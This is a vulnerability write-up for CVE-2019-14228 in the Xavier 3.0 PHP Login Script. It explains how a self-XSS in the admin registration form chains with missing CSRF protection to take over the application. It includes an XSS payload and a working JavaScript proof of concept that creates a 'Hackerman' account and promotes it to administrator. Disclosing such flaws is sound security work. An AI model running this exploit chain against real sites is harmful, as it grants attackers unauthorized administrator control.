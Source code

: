 ```yaml
---
layout: post
title: CVE-2019-14228 
tags: [CVE-Writeup]
author: Ingredous Labs
comment: true
---
```


<h2>CVE-2019-14228</h2>
~~~
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14228
~~~

# Introduction

Xavier 3.0 PHP Login Script & Management Panel is developed by Angry Frog and could be purchased by clicking [here](https://www.angry-frog.com/php-login-script/).

As stated on their website:

> The Xavier PHP Login Script is a user management system allowing the registration and administration of users to your website. 

# Exploitation Details

Xavier PHP Login Script allows Administrators to create new users by using the Management Panel. During a blackbox assessment, it was observed that causing the registration to fail such as using a password which doesn't meet the complexity policy would cause the application to reflect the username in the error message.

Attempting to register a username which contains Javascript such as `<img src=/ onerror=alert(1)>`, would cause the Javascript to be evaluated and executed by the browser as no sanitization is being performed thhus resulting in XSS (Cross-Site-Scripting.)

Unfortunately the impact here is completely mitigated as this would be a case of Self-XSS as the attacker would be required to either social engineer the Victim Administrator into inputting this payload along with causing the form to error.

However upon further observation, it was noticed that the endpoint which is responsible for creating a new user was missing CSRF protection. As seen in the request, there is no CSRF protection in the form of a token being passed along in the request nor was the application utilizing Same-Site Cookies.

With this, an Attacker is able to craft a proof of concept and host it on their website which upon being visited by the Victim Admin will have the browser follow the request and thus create a new user. However one caveat lies here and that is when a new user is created, they are automatically placed into the "Registered Users" aka the lowest privilege group. Long story short, an attacker would be able to achieve the same impact by using the self-registration feature and registering their own account. 

In order to upgrade a user's privileges, an Admin will need to browse to the Management Panel and promote the user. The endpoint which is responsible for promoting the user utilizes CSRF protection thus making it impossible to promote the Attacker's user to Admin via the same vector (CSRF).

One last piece remains and that is the Self-XSS. With the CSRF an attacker is able to leverage the Self-XSS into being remotely exploitable in the form of Reflected XSS. As an attacker is able to execute Javascript in the context of the Victim's browser, they are now able to bypass the Same Origin Policy (SOP) which therefore would allow the attacker to bypass the CSRF protection found on the endpoint which is responsible for promoting a user's privileges by including specially crafted Javascript found in the Proof of Concept section below. 

Upon the Javascript being executed in the context of the Victim Admin's browser, it will create a new account for the attacker and promote it to Administrator which is the highest privilege offered by the application thus allowing the attacker to effectively takeover the application by chaining together Self-XSS + CSRF. 


# Proof of Concept

~~~
var root = "";
var req = new XMLHttpRequest();
var url = root + "/xavier-demo/admin/includes/adminprocess.php";
var params = "user=Hackerman&firstname=Hackerman&lastname=Hackerman&pass=P4ssw0rd&conf_pass=P4ssw0rd& email=Hackerman%40Superman.com&conf_email=Hackerman%40Superman.com&form_submission=admin_registration";
req.open("POST", url, true);
req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
req.send(params);
var url2 = root + "/xavier-demo/admin/adminuseredit.php?usertoedit=Hackerman";
var regex = /delete-user" value="([^"]*?)"/g;
var req2 = new XMLHttpRequest();
req2.open("GET", url2, false);
req2.send();
var nonce = regex.exec(req2.responseText);
var nonce = nonce[1];
var url3 = root + "/xavier-demo/admin/includes/adminprocess.php";
var params2 = "delete-user="+nonce+"&form_submission=delete_user&usertoedit=Hackerman&button=Promotetoadmin";
req2.open("POST", url3, true);
req2.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
req2.send(params2);
~~~

Upon this being executed, a new Administrator with the username of Hackerman and password of P4ssw0rd will created.